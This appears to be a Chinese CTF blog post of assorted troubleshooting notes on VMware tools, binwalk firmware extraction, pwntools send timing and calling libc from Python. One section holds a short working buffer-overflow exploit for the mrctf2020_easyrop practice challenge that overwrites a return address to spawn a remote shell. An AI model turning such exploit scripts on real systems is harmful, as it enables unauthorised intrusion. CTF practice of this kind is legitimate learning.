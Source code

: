 ```yaml
---
title: 遇到的奇奇怪怪问题汇总
tags: [ctf-pwn,Others]
date: 2022-11-29 21:35:00
categories: [杂项]
excerpt: 解决或未解决的奇怪问题
---
```


**vmware自带的vmtools安装了也复制不进来**

虚拟机执行命令

```
sudo apt-get install open-vm-tools-desktop
```

如果拖放文件的时候出现了

![](/img/problems/1.jpg)

```
sudo gedit /etc/gdm3/custom.conf
```

将`WaylandEnable=false`注释掉

据说是vmware还没有支持ubutnu22.04的默认桌面Wayland

#### sleep ？

题目：

<https://buuoj.cn/challenges#mrctf2020_easyrop>

本来是很简单的一个溢出

```python
from pwn import *
from time import sleep
#r = process('./mrctf2020_easyrop')
r = remote('node4.buuoj.cn',25663)
system_sh =0x000000000040072A
r.sendline(b'2')
#sleep(1)
r.sendline(b'a'*0x300)
r.sendline(b'7')
#sleep(1)
r.sendline(b'a'* 0x12 + p64(system_sh))
r.interactive()
```

但是不加sleep无法通过

有人说是python同时发送多个字符串时会合并(?)

那什么时候情况下需要在sendline前面加一个sleep

​    [已解决] 打本地不加应该没事，打远程的时候肯定会有一点延迟，假如没有sendafter这一类的发送，就可能会造成后面的也一起发送了，所以每次写exp发送的时候最好用sendafter或者sendlineafter这样的话就不需要再担心sleep(1)了

----------------------------------------------------------------------------------



#### binwalk提取固件时快捷方式指向/dev/null

binwalk提取固件时会有一个warning

```
WARNING: Symlink points outside of the extraction directory: /home/kali/Desktop/dir815_FW_101/_DIR-815 FW 1.01b14_1.01b14.bin.extracted/squashfs-root/htdocs/web/dlcfg.cgi -> /htdocs/cgibin; changing link target to /dev/null for security purposes.
```

用到这个快捷方式时要修改一下



#### sendlineafter的问题

要加上换行符`\n`，否则匹配不上

```
p.sendlineafter(b'Input your Plaintext to be encrypted\n',...)
```



#### python调用c库函数

```python
from ctypes import *
libc = cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
libc.srand(0)
libc.rand()%6 + 1
```

